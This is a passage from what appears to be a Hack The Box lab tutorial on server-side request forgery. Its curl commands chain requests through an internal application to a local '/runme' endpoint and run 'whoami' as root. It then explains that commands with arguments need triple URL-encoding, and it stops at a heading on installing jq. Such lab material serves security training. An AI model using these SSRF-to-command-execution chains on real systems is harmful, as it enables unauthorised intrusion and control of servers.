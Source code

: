 ```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 93
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:48:32 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=whoami</h1><a>root
 </a></body></html>
```

We can execute commands under the superuser context on the target application. But what happens if we try to submit a command with arguments, such as the below?

```shell
p3ta@htb[/htb]
$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a"

HTTP/1.0 400 Bad request syntax ('GET /load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a HTTP/1.1')
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 586

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 400</p>
        <p>Message: Bad request syntax ('GET /load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a HTTP/1.1').</p>
        <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
    </body>
</html>
```

To execute commands with arguments or special characters, we need to encode them three times as we pass them through three different web applications.

For doing so, you can use any online URL-encoding service such as [urlencoder.org](https://www.urlencoder.org/). A quick way to achieve this from the terminal also exists. This is to use `jq`, which supports encoding as follows:

#### Install JQ
